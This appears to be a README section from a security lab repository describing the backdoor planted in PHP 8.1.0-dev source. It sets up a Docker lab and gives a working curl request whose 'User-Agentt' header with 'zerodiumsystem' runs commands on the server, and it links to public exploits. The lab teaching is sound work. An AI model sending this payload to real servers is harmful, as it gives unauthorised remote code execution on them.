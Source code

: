 # 4. PHP 8.1-DEV BACKDOOR
## Subtitle / what it does
PHP 8.1-dev has been backdoored. A malicious "User-agentt" header can be sent along with the request. \
Read more: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/ \
https://news-web.php.net/php.internals/113838

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
docker-compose up -d
curl -H "User-Agentt: zerodiumsystem('whoami');" http://localhost:8080
```
![image](https://user-images.githubusercontent.com/31791455/140391265-d9cc3cc8-9c61-47e3-9a54-eece30c0b779.png)


### Explanation
The backdoor looks for existence of malformed user-agent header. If it contains string "zerodium", then anything that comes after it will be executed.

### References and recommended reading
https://www.exploit-db.com/exploits/49933
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/php/8.1-backdoor
